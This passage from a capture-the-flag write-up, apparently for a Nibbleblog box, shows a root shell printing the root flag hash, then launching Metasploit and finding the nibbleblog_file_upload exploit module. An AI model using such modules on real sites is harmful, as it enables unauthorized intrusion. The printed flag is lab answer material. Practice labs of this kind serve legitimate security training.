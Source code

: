*let's grab the root flag*
```
# cd /root
ls
# root.txt
# cat root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```

## Alternative User Method - Metasploit

- As discussed earlier, there is a metasploit module that works for this box
- It is much more straightforward, it is worth practicing both  methods to become familiar with as many tools and techniques as possible

**Start msfconsole**
```
┌──(kali㉿kali)-[~/Desktop/temp/privesc]
└─$ msfconsole
Metasploit tip: You can upgrade a shell to a Meterpreter session on many 
platforms using sessions -u <session_id>
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.4.50-dev                          ]
+ -- --=[ 2495 exploits - 1283 auxiliary - 393 post       ]
+ -- --=[ 1607 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

**search nibbleblog and view required options**
```
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


```